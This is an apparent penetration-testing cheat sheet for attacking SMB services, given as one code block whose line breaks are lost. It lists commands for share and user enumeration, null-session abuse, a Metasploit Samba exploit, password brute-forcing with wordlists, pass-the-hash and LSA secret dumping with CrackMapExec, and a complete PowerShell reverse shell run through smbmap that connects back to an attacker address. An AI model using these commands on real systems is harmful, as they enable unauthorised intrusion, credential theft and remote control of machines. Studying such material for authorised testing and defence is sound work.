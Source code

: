 ```
# Enum hostnameenum4linux -n 10.11.1.111nmblookup -A 10.11.1.111nmap --script=smb-enum* --script-args=unsafe=1 -T5 10.11.1.111# Get Versionsmbver.sh 10.11.1.111Msfconsole;use scanner/smb/smb_versionngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]'smbclient -L \\\\\\\\10.11.1.111# Get Sharessmbmap -H  10.11.1.111 -Recho exit | smbclient -L \\\\\\\\10.11.1.111smbclient \\\\\\\\10.11.1.111\\\\smbclient -L //10.11.1.111 -Nnmap --script smb-enum-shares -p139,445 -T4 -Pn 10.11.1.111smbclient -L \\\\\\\\10.11.1.111\\\\# If got error "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED"smbclient -L //10.11.1.111/ --option='client min protocol=NT1'# Check null sessionssmbmap -H 10.11.1.111rpcclient -U "" -N 10.11.1.111smbclient //10.11.1.111/IPC$ -N# Exploit null sessionsenum -s 10.11.1.111enum -U 10.11.1.111enum -P 10.11.1.111enum4linux -a 10.11.1.111#<https://github.com/cddmp/enum4linux-ng/>enum4linux-ng.py 10.11.1.111 -A -C/usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111# Connect to username sharessmbclient //10.11.1.111/share -U username# Connect to share anonymouslysmbclient \\\\\\\\10.11.1.111\\\\smbclient //10.11.1.111/smbclient //10.11.1.111/smbclient //10.11.1.111/<""share name"">rpcclient -U " " 10.11.1.111rpcclient -U " " -N 10.11.1.111# Check vulnsnmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111# Multi exploitsmsfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run# Bruteforce loginmedusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbntnmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvvnmap –script smb-brute 10.11.1.111# nmap smb enum & vulnnmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111# Mount smb volume linuxmount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share# rpcclient commandsrpcclient -U "" 10.11.1.111    srvinfo    enumdomusers    getdompwinfo    querydominfo    netshareenum    netshareenumall# Run cmd over smb from linuxwinexe -U username //10.11.1.111 "cmd.exe" --system# smbmapsmbmap.py -H 10.11.1.111 -u administrator -p asdf1234 \#Enumsmbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 \#RCEsmbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listingsmbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell# Check\\Policies\\{REG}\\MACHINE\\Preferences\\Groups\\Groups.xml look for user&pass "gpp-decrypt "# CrackMapExeccrackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --localcrackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local --lsa# Impacketpython3 samdump.py SMB 172.21.0.0# Check for systems with SMB Signing not enabledpython3 RunFinger.py -i 172.21.0.0/24
```
